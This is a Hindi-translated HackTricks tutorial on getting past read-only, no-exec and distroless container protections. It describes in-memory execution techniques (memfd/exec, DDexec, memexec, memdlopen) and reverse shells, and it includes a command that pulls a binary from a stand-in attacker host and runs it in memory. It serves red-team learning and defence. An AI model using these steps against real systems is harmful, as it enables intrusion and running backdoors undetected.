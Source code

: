 # FS सुरक्षा को उमड़ना: केवल पढ़ने योग्य / कोई-क्रिया / Distroless

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## वीडियो

निम्नलिखित वीडियो में आप इस पृष्ठ में उल्लिखित तकनीकों को अधिक गहराई से समझ सकते हैं:

* [**DEF CON 31 - गुप्तता और टालने के लिए लिनक्स मेमोरी मेनिपुलेशन का अन्वेषण**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng और इन-मेमोरी dlopen() के साथ गुप्त प्रवेश - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## पढ़ने योग्य / कोई-क्रिया स्थिति

लिनक्स मशीनों को **केवल पढ़ने योग्य (ro) फ़ाइल सिस्टम सुरक्षा** के साथ माउंट करना अधिक सामान्य हो रहा है, विशेष रूप से कंटेनर में। यह इसलिए है क्योंकि ro फ़ाइल सिस्टम के साथ कंटेनर चलाना **`readOnlyRootFilesystem: true`** को `securitycontext` में सेट करना इतना आसान है:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

हालांकि, यदि फ़ाइल सिस्टम को ro के रूप में माउंट किया गया है, तो **`/dev/shm`** अभी भी लिखने योग्य होगा, इसलिए यह झूठ है कि हम डिस्क में कुछ भी लिख नहीं सकते। हालांकि, इस फ़ोल्डर को **कोई-क्रिया सुरक्षा के साथ माउंट किया जाएगा**, इसलिए यदि आप यहाँ एक बाइनरी डाउनलोड करते हैं तो आप **इसे क्रियान्वित नहीं कर सकेंगे**।

{% hint style="warning" %}
रेड टीम की दृष्टि से, यह **कठिन बना देता है कि डाउनलोड और क्रियान्वित करें** बाइनरी जो पहले से सिस्टम में नहीं हैं (जैसे बैकडोर या `kubectl` जैसे जांचकर्ता)।
{% endhint %}

## सबसे आसान उमड़न: स्क्रिप्ट

ध्यान दें कि मैंने बाइनरी का उल्लेख किया, आप **किसी भी स्क्रिप्ट को क्रियान्वित कर सकते हैं** जब तक अंतर्वादक मशीन में हो, जैसे एक **शैल स्क्रिप्ट** यदि `sh` मौजूद है या एक **पायथन स्क्रिप्ट** यदि `पायथन` स्थापित है।

हालांकि, यह आपके बाइनरी बैकडोर या अन्य बाइनरी उपकरणों को चलाने के लिए जो आपको चलाने की आवश्यकता हो सकती है, इसके लिए केवल इतना ही काफी नहीं है।

## मेमोरी उमड़न

यदि आप एक बाइनरी को क्रियान्वित करना चाहते हैं लेकिन फ़ाइल सिस्टम इसे नहीं करने दे रहा है, तो उसे **मेमोरी से क्रियान्वित** करना सबसे अच्छा तरीका है, क्योंकि **सुरक्षा उसमें लागू नहीं होती**।

### FD + exec सिसकॉल उमड़न

यदि आपके पास मशीन में कुछ शक्तिशाली स्क्रिप्ट इंजन हैं, जैसे **पायथन**, **पर्ल**, या **रूबी**, तो आप मेमोरी से क्रियान्वित करने के लिए बाइनरी डाउनलोड कर सकते हैं, इसे एक मेमोरी फ़ाइल डिस्क्रिप्टर में स्टोर कर सकते हैं (`create_memfd` सिसकॉल), जिसे उन सुरक्षा उपायों द्वारा सुरक्षित नहीं किया जाएगा और फिर एक **`exec` सिसकॉल** को कॉल करके **फ़ाइल के रूप में क्रियान्वित करने के लिए** fd को संकेत करते हुए।

इसके लिए आप आसानी से परियोजना [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) का उपयोग कर सकते हैं। आप इसे एक बाइनरी पास कर सकते हैं और यह उसे निर्दिष्ट भाषा में एक स्क्रिप्ट उत्पन्न करेगा जिसमें बाइनरी को **संकुचित और b64 एनकोड किया गया** होगा और इसे **डिकोड और डीकंप्रेस** करने के निर्देश होंगे एक **fd** को बुलाने के लिए `create_memfd` सिसकॉल और इसे चलाने के लिए **exec** सिसकॉल को कॉल करने के निर्देश होंगे।

{% hint style="warning" %}
यह अन्य स्क्रिप्टिंग भाषाओं में काम नहीं करता क्योंकि उनमें कोई **डिफ़ॉल्ट तरीका नहीं है जिससे स्क्रिप्ट से रॉ सिसकॉल को कॉल किया जा सके**, इसलिए बाइनरी को स्टोर करने के लिए **मेमोरी fd** बनाने के लिए `create_memfd` को कॉल करना संभव नहीं है।

इसके अतिरिक्त, `/dev/shm` में एक फ़ाइल के साथ एक **नियमित fd** बनाना काम नहीं करेगा, क्योंकि आप इसे चलाने की अनुमति नहीं मिलेगी क्योंकि **कोई-क्रिया सुरक्षा सुरक्षा** लागू होगी।
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) एक तकनीक है जो आपको अपनी प्रक्रिया की **`/proc/self/mem`** को अधिकारित करके अपनी मेमोरी को **संशोधित करने** की अनुमति देती है।

इसलिए, प्रक्रिया द्वारा निष्पादित असेंबली कोड को नियंत्रित करके, आप एक **शैलकोड** लिख सकते हैं और प्रक्रिया को **किसी भी विचित्र कोड** को **निष्पादित** करने के लिए "परिवर्तित" कर सकते हैं।

{% hint style="success" %}
**DDexec / EverythingExec** आपको अपने खुद के **शैलकोड** या **किसी भी बाइनरी** को **मेमोरी** से लोड और **निष्पादित** करने की अनुमति देगा।
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec) DDexec का प्राकृतिक अगला कदम है। यह एक **DDexec शैलकोड डेमनाइज्ड** है, इसलिए हर बार जब आप **एक विभिन्न बाइनरी को चलाना चाहते हैं** तो आपको DDexec को फिर से लॉन्च करने की आवश्यकता नहीं है, आप सिर्फ memexec शैलकोड को DDexec तकनीक के माध्यम से चला सकते हैं और फिर **इस डेमन के साथ संवाद करके नए बाइनरी को लोड और चलाने** के लिए।

आप [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) में **memexec का उपयोग कैसे करें** के एक उदाहरण पा सकते हैं।

### Memdlopen

DDexec के एक समान उद्देश्य के साथ, [**memdlopen**](https://github.com/arget13/memdlopen) तकनीक एक **सरल तरीके से बाइनरी को लोड करने** की अनुमति देती है ताकि आप उन्हें बाद में चला सकें। यह यहाँ तक कि विभिन्न आवश्यकताओं वाली बाइनरी को लोड करने की अनुमति देती है।

## Distroless Bypass

### Distroless क्या है

Distroless containers में केवल **विशेष एप्लिकेशन या सेवा को चलाने के लिए आवश्यकता होने वाले न्यूनतम घटक** होते हैं, जैसे पुस्तकालय और रनटाइम निर्भरताएँ, लेकिन एक पैकेज प्रबंधक, शैल या सिस्टम उपयोगिताएं जैसे बड़े घटकों को छोड़ देते हैं।

Distroless containers का लक्ष्य है कि वे **अनावश्यक घटकों को हटाकर** कंटेनर की हमले की सतह को कम करें और उन विकल्पों की संख्या को कम करें जिनका शोध किया जा सकता है।

### Reverse Shell

एक distroless container में आपको **शायद ही `sh` या `bash`** मिलेगा जिससे आप एक साधारण शैल को प्राप्त कर सकें। आप `ls`, `whoami`, `id` जैसी बाइनरी भी नहीं पाएंगे... जो आप सामान्यत: एक सिस्टम में चलाते हैं।

{% hint style="warning" %}
इसलिए, आप **एक रिवर्स शैल** या **सिस्टम की जांच** जैसा काम करने में सक्षम नहीं होंगे।
{% endhint %}

हालांकि, यदि संक्रमित कंटेनर में उदाहरण के लिए एक फ्लास्क वेब चल रहा है, तो पायथन स्थापित है, और इसलिए आप एक **पायथन रिवर्स शैल** प्राप्त कर सकते हैं। यदि यह नोड चल रहा है, तो आप एक नोड रिवर्स शैल प्राप्त कर सकते हैं, और इसी तरह से अधिकांश के साथ **स्क्रिप्टिंग भाषा**।

{% hint style="success" %}
स्क्रिप्टिंग भाषा का उपयोग करके आप **भाषा क्षमताओं का उपयोग करके सिस्टम की जांच** कर सकते हैं।
{% endhint %}

यदि **`read-only/no-exec`** सुरक्षा उपाय नहीं है तो आप अपने रिवर्स शैल का दुरुपयोग करके **फाइल सिस्टम में अपनी बाइनरी** लिख सकते हैं और उन्हें **चला** सकते हैं।

{% hint style="success" %}
हालांकि, इस प्रकार के कंटेनरों में ये सुरक्षा उपाय आम तौर पर मौजूद होंगे, लेकिन आप **पिछले मेमोरी निष्पादन तकनीकों का उपयोग करके उन्हें अनदेखा कर सकते हैं**।
{% endhint %}

आप **कुछ RCE वंलरेबिलिटी का शोधन करने** और [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) में मेमोरी से बाइनरी चलाने के उदाहरण पा सकते हैं।
